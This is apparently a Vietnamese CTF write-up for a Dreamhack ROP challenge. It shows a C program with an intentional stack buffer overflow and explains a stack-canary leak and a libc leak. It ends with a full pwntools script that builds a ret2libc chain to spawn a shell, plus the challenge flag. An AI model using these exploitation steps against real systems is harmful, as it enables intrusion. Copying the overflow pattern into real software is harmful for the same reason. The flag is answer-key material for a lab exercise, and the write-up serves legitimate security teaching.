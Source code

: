 **1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Leak canary
  puts("[1] Leak Canary");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Do ROP
  puts("[2] Input ROP payload");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

Chương trình yêu cầu người dùng nhập vào đầu vào và in ra nội dung của đầu vào đó, cho phép kiểm tra việc leak canary. Sau đó, chương trình yêu cầu người dùng nhập vào ROP payload thông qua đầu vào và thực hiện ROP.

Chương trình khai báo biến `buf` là 0x30 nhưng cho phép nhập 0x100 byte -> Có lỗi `bof`

**2. Ý tưởng**

Đã rõ như nội dung code:
- Nhập làm sao để leak địa chỉ canary
- Sử dụng `ROPgadget` để điều hướng đến hàm thực thi

**3. Khai thác**

Đặt breakpoint sau lệnh `printf` để xem giá trị `canary` cách biến `buf` bao nhiêu:

![check.png](photo/check.png)

Ta thấy địa chỉ `canary` cách địa chỉ chứa biến `buf` 0x38 byte. Nhưng ở đây giá trị canary có byte null ở cuối nên cần nhập tràn nó rồi trừ sau.

```
payload = b'a'*0x39
r.sendafter('Buf: ', payload)
r.recvuntil(b'a'*0x38)
leak_canary = u64(r.recv(8))
log.info("leak canary fake: " + hex(leak_canary))
canary = leak_canary - 0x61
log.info("canary: " + hex(canary))

```

Bây giờ đi kiếm các `gadget` để có thể khai thác:

```
pop_rdi = 0x00000000004007f3
ret = 0x000000000040055e
```

Ta chỉ kiếm được 2 `gadget` như trên là không đủ. Nên sẽ leak địa chỉ libc để lấy hàm `system` của libc. Ta có hàm `read` và `puts` nên sẽ tận dụng điều này để leak địa chỉ hàm `read`. Từ đó có thể tính toán địa chỉ libc và hướng chương trình trở lại hàm main.

```
payload = b'a'*0x38 + p64(canary) + b'a'*8
payload += p64(pop_rdi) + p64(read_got) + p64(puts_plt) + p64(main)
r.sendafter(b'Buf: ', payload)
read_leak = u64(r.recv(6) + b'\x00\x00')
log.info("read leak: " + hex(read_leak))
libc.address = read_leak - libc.sym['read']
log.info("libc leak: " + hex(libc.address))
```

Như vậy đã leak được địa chỉ canary và địa chỉ libc và hướng chương trình quay trở lại hàm main. Tiếp theo ở payload đầu nhập byte rác, payload thứ 2 sử dụng `ROPgadget` để hướng tới hàm thực thi

Ta có script như sau:

```
from pwn import *

exe = ELF('rop_patched', checksec = False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 11704)
libc = ELF('libc-2.27.so', checksec = False)

#input()
payload = b'a'*0x39
r.sendafter('Buf: ', payload)
r.recvuntil(b'a'*0x38)
leak_canary = u64(r.recv(8))
log.info("leak canary fake: " + hex(leak_canary))
canary = leak_canary - 0x61
log.info("canary: " + hex(canary))

pop_rdi = 0x00000000004007f3
ret = 0x000000000040055e
read_got = exe.got['read']
read_plt = exe.plt['read']
puts_plt = exe.plt['puts']
main = exe.sym['main']

payload = b'a'*0x38 + p64(canary) + b'a'*8
payload += p64(pop_rdi) + p64(read_got) + p64(puts_plt) + p64(main)
r.sendafter(b'Buf: ', payload)
read_leak = u64(r.recv(6) + b'\x00\x00')
log.info("read leak: " + hex(read_leak))
libc.address = read_leak - libc.sym['read']
log.info("libc leak: " + hex(libc.address))

payload = b'a'*0x38
r.sendafter('Buf: ', payload)

payload = b'a'*0x38 + p64(canary) + b'a'*8
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(ret)
payload += p64(libc.sym['system'])
r.recvuntil(b'[2] Input ROP payload')
r.sendafter(b'Buf: ',payload)


r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

`Flag: DH{68b82d23a30015c732688c89bd03d401}`